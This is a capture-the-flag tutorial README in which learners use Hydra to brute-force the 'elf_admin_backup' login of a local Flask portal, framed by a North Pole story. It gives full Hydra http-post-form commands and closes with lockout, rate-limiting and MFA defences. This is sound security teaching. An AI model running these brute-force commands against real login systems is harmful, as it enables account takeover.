

[← Previous Day](../day02/README.md) | [Main README](../README.md) | **Day 3** | [Next Day →](../day04/README.md)

---



# 🎄 Day 3 (December 14) - Workshop Portal Attack

## ⚡ QUICK START

**Before you begin, install the required tools:**

```bash
# Install Hydra
sudo apt install hydra -y   # Linux/WSL
brew install hydra          # macOS

# Install Flask (REQUIRED!)
pip3 install flask

# Verify installations
hydra -h
python3 -c "import flask; print('Flask installed!')"
```

**Then extract artifacts:**
```bash
7z x day03_artifacts.zip -p"YOUR_DAY2_FLAG"
```

---

## 🎅 The Story

**December 14, 2024 - 03:17 AM (North Pole Time)**

Dekker Frostbeard's phone buzzes violently on his nightstand, jolting him awake. His magnificent frost-tipped beard catches the moonlight as he grabs the phone and sees Merry's name flashing.

"This better be good," he growls, his voice still thick with sleep.

"It's not." Merry's voice is tight with tension. "The Workshop Portal authentication system is getting absolutely hammered. Thousands of failed login attempts in the last hour. And Dekker... someone got in."

He's already out of bed, his elf slippers hitting the floor with a thud as he reaches for his secure laptop. "Which account?"

"That old backup admin account from Aisha's discovery yesterday. The one we thought was disabled after the Nice List breach." Merry pulls up the logs on her screen, her peppermint cocoa forgotten and cold. "Jack Frost must have gotten the username from those leaked backup files. Then he brute-forced the password using an automated tool."

Dekker connects to the secure North Pole VPN, his jaw clenched beneath his impressive beard. "How did our alerts miss this?"

"The notifications were buried in holiday traffic noise," Merry explains, scrolling through thousands of log entries. "Ten million toy orders a day means ten million authentication events. This attack blended in with legitimate failed logins until it didn't."

On Dekker's screen, the Workshop Portal authentication logs scroll past. Failed attempt after failed attempt from the same suspicious IP address. Systematic testing, automated patterns, rapid-fire attempts. Then, at **02:47 AM**, a successful login for **elf_admin_backup**.

"Wake up Tom Icicle from Incident Response," Dekker orders, his SOC Manager instincts kicking in. "Full incident response mode. And Merry? I need you to understand exactly how Jack did this. Can you replicate the brute force attack in our test environment?"

Merry is already typing. "On it. I'll spin up a copy of the Workshop Portal in our lab. If I can successfully brute force it the same way Jack did, I'll understand his methodology and we can better defend against it."

"Good thinking. This is a learning moment - we need to think like an attacker to defend properly." Dekker pauses, stroking his beard thoughtfully. "And Merry? Once you're in, check what Jack accessed. If he has admin credentials to the Workshop Portal..."

Merry's eyes widen. "He could access production schedules, the Nice List, delivery routes..."

"Exactly. Let's hope we caught him before he downloaded anything critical. Christmas is only 11 days away."

---

## 📚 Lesson: Learn the Technique

**Before starting this challenge, read the lesson:**
📖 [Brute Force Attacks - Understanding the Technique](./lesson_brute_force.md)

This lesson covers:
- What brute force attacks are and how they work
- Different types of brute force (dictionary, credential stuffing, password spraying)
- How tools like Hydra automate password cracking
- How to detect and defend against brute force attacks
- Real-world examples and MITRE ATT&CK framework mapping
- Legal and ethical considerations

**New to brute force attacks?** Start with the lesson - it assumes zero prior knowledge!

---

## 🛠️ Prerequisites & Setup

**This is your first offensive security tool!** You'll use **Hydra** - the industry-standard password cracking tool used by penetration testers and attackers worldwide.

### Tools You'll Need

**Hydra (Required)**
- **What it is:** Fast network login cracker supporting 50+ protocols
- **Used by:** Penetration testers, security researchers, attackers
- **Why it's important:** Understanding offensive tools helps you defend better

**Installation:**

**Kali Linux / Parrot Security OS:**
```bash
# Already pre-installed!
hydra -h
```

**Ubuntu / Debian / WSL:**
```bash
sudo apt update
sudo apt install hydra -y
```

**macOS:**
```bash
brew install hydra
```

**Windows (WSL):**
```bash
# Use Windows Subsystem for Linux (WSL)
sudo apt update && sudo apt install hydra -y
```

**Verify installation:**
```bash
hydra -h
# Should display Hydra help menu
```

**Python 3 & Flask (Required)**
- **What it is:** Python web framework for running the Workshop Portal
- **Installation:**
```bash
pip3 install flask
```

### Getting Started Checklist

Before you begin:
- [ ] Install Hydra (`hydra -h` to verify)
- [ ] Install Flask (`pip3 install flask`)
- [ ] Extract `day03_artifacts.zip` (password: Day 2's flag)
- [ ] Read the [Brute Force lesson](./lesson_brute_force.md)
- [ ] Understand that you'll attack a LOCAL test portal, not a real system

---

## 🎯 **YOUR MISSION: Replicate Jack Frost's Brute Force Attack!**

You are **Merry Tinselcode**, Senior Security Elf. To understand how Jack Frost compromised the Workshop Portal, you need to replicate his attack in a safe lab environment.

### Mission Objectives:

1. **Start the Workshop Portal** (test environment)
   - Run the Portal web application locally
   - Verify it's accessible at `http://127.0.0.1:5000`

2. **Use Hydra** to brute force the login
   - Username: `elf_admin_backup` (discovered in Day 2)
   - Password: Unknown (in provided wordlist)
   - Tool: Hydra with dictionary attack

3. **Crack the password** and login
   - Understand what Jack Frost found
   - Access the admin dashboard

4. **Find the flag** in the incident report
   - The flag proves you understand brute force methodology
   - Document what Jack Frost could access

---

## 🔍 Artifacts

**Password required:** Use Day 2's flag to extract `day03_artifacts.zip`

In the `artifacts/` folder you'll find:

| File | Description |
|------|-------------|
| `workshop_portal.py` | Flask web application - the Workshop Portal login system |
| `rockyou-top1000.txt` | Password wordlist (top 1000 most common passwords) |

---

## 📖 **Step-by-Step Challenge Guide**

### Step 1: Start the Workshop Portal

First, you need to run the Workshop Portal web application:

```bash
cd day03/artifacts/
python3 workshop_portal.py
```

**You should see:**
```
🎄 WORKSHOP PORTAL - NORTH POLE OPERATIONS CENTER 🎄
Starting Workshop Portal on http://127.0.0.1:5000
Portal is running at: http://127.0.0.1:5000/login
```

**Keep this terminal open!** The portal must stay running.

**Test it:** Open a browser and visit `http://127.0.0.1:5000/login` - you should see the login page.

---

### Step 2: Understand the Target

Before attacking, gather information (reconnaissance):

**What you know:**
- **Target URL:** `http://127.0.0.1:5000/login`
- **Username:** `elf_admin_backup` (from Day 2)
- **Password:** Unknown, but likely in the wordlist

**Try manual login:**
- Open browser: `http://127.0.0.1:5000/login`
- Try username `elf_admin_backup` with password `wrong_password`
- Note the error message: **"Invalid credentials"**

This error message is important - Hydra uses it to detect failed attempts!

---

### Step 3: Prepare Your Hydra Attack

Open a **new terminal** (keep the portal running in the first one).

Navigate to the artifacts folder:
```bash
cd day03/artifacts/
```

**Understand the Hydra syntax:**
```bash
hydra [options] TARGET SERVICE
```

For HTTP POST form attacks:
```bash
hydra -l USERNAME -P WORDLIST TARGET http-post-form "PATH:PARAMETERS:FAILURE_STRING"
```

**Breaking it down:**
- `-l elf_admin_backup` = username (lowercase L for single user)
- `-P rockyou-top1000.txt` = password wordlist (uppercase P for file)
- `127.0.0.1` = target IP (localhost)
- `http-post-form` = attack type
- `"/login:username=^USER^&password=^PASS^:Invalid credentials"` = form details

---

### Step 4: Launch the Brute Force Attack

**Run Hydra:**
```bash
hydra -l elf_admin_backup -P rockyou-top1000.txt 127.0.0.1 http-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials"
```

**What happens:**
- Hydra tests each password from the wordlist
- You'll see attempts scrolling: `[ATTEMPT] target 127.0.0.1 - login "elf_admin_backup" - pass "password"`
- When successful, you'll see: `[5000][http-post-form] host: 127.0.0.1   login: elf_admin_backup   password: XXXXXXXX`

**Speed it up (optional):**
```bash
hydra -l elf_admin_backup -P rockyou-top1000.txt -t 4 127.0.0.1 http-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials"
```
The `-t 4` option uses 4 parallel threads for faster cracking.

---

### Step 5: Login to the Workshop Portal

Once Hydra cracks the password:

1. **Open browser:** `http://127.0.0.1:5000/login`
2. **Login with:**
   - Username: `elf_admin_backup`
   - Password: (the password Hydra found)
3. **Click "Login"**

You should be redirected to the **Admin Dashboard**.

---

### Step 6: Find the Flag

**Explore the admin dashboard:**
- Read the welcome message
- Check system status cards
- Look at security alerts
- **Read the Security Incident Report**

The incident report contains:
- Attack timeline
- Attacker methodology
- Security recommendations
- **The flag**

**The flag format:** `FROST{...}`

This flag proves you understand how brute force attacks work and can be used to unlock Day 4!

---

## 🧪 **What You're Learning**

### Technical Skills:
- ✅ Using Hydra for password brute forcing
- ✅ Understanding HTTP POST form authentication
- ✅ Dictionary attacks vs. other brute force methods
- ✅ How attackers compromise weak passwords

### Security Concepts:
- ✅ Why weak passwords are dangerous
- ✅ How rate limiting and account lockouts prevent brute force
- ✅ The importance of password complexity
- ✅ Why failed login monitoring matters

### MITRE ATT&CK:
- **Tactic:** TA0006 - Credential Access
- **Technique:** T1110 - Brute Force
- **Sub-technique:** T1110.001 - Password Guessing

---

## 🎓 **Bonus Challenges (Optional)**

Want to learn more? Try these advanced exercises:

### Challenge 1: Analyze the Attack Speed
```bash
# Time how long the brute force takes
time hydra -l elf_admin_backup -P rockyou-top1000.txt 127.0.0.1 http-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials"
```
How many passwords per second can Hydra test?

### Challenge 2: Create a Custom Wordlist
What if the password wasn't in the list? Create your own wordlist with Christmas-themed passwords:
```bash
nano custom_wordlist.txt
# Add: christmas2024, rudolph, northpole, etc.
```

### Challenge 3: Test Account Lockout
Modify the Flask app to lock accounts after 5 failed attempts. Does Hydra still work?

---

## 🛡️ **Defense Strategies**

Now that you understand how brute force attacks work, here's how to defend against them:

### 1. Strong Password Policy
- Minimum 12-16 characters
- Mix of uppercase, lowercase, numbers, symbols
- No dictionary words
- No personal information

### 2. Account Lockout
```python
# Pseudocode
if failed_login_count >= 5:
    lock_account(username, duration=15_minutes)
```

### 3. Rate Limiting
```python
# Pseudocode
if login_attempts_per_minute > 3:
    block_ip(ip_address, duration=5_minutes)
```

### 4. Multi-Factor Authentication (MFA)
- Even if password is cracked, attacker needs 2nd factor
- SMS code, authenticator app, hardware token

### 5. Monitoring & Alerting
```
Alert: 100+ failed login attempts from IP 203.0.113.99
Action: Block IP, notify SOC team, investigate
```

---

## ❓ Need Help?

- **Stuck installing Hydra?** See [hints.md](./hints.md) - Hint 1
- **Portal won't start?** See [hints.md](./hints.md) - Hint 2
- **Hydra not finding password?** See [hints.md](./hints.md) - Hint 6
- **Can't find the flag?** See [hints.md](./hints.md) - Hint 9

**Progressive hints available** - from installation help to full solution.

---

## 📚 **Additional Resources**

**Learn more about Hydra:**
- Official Hydra GitHub: https://github.com/vanhauser-thc/thc-hydra
- Hydra Tutorial: https://www.kali.org/tools/hydra/

**Learn more about brute force defense:**
- OWASP Authentication Cheat Sheet: https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html
- NIST Password Guidelines: https://pages.nist.gov/800-63-3/sp800-63b.html

---

## 🏁 **Next Steps**

Once you have the flag (`FROST{...}`), you're ready for Day 4!

**Use your Day 3 flag to unlock:**
```bash
7z x day04_artifacts.zip -p"YOUR_DAY3_FLAG"
```

**What's Next?**
Day 4: Jack Frost's phishing campaign targets North Pole elves. You'll analyze obfuscated JavaScript to uncover his tactics.

---

**Difficulty:** ⭐⭐ Intermediate
**Time Estimate:** 30-45 minutes
**Tools Required:** Hydra, Python/Flask, browser

---

[← Previous Day](../day02/README.md) | [Main README](../README.md) | **Day 3** | [Next Day →](../day04/README.md)
